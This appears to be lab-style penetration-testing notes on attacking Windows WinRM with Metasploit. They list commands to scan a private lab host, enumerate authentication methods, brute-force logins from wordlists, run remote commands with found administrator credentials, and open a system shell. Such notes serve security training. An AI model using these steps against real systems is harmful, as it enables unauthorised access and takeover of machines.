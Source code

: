 # Exploiting Windows WinRM

- WinRM is a Windows protocol that is used to remotely access Windows systems
- also used to manage and configure windows systems remotely
- Runs on TCP port 5985 and 5986 (HTTPS)

#### INITIAL ENUMERATION:

```
db_namp -sV -O -p- 10.5.24.36
```

#### ENUMERATING AUTHENTICATION METHODS:

```
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 10.5.24.36
exploit
```

#### BRUTEFORCING WINRM LOGIN CREDS:

```
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 10.5.24.36
set USER_FILE /usr/share/wordlists/metasploit/common_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
exploit
```

#### RUNNING REMOTE COMMANDS:

```
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS 10.5.24.36
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit
```

#### GAINING SYSTEM SHELL:

```
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.5.24.36
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```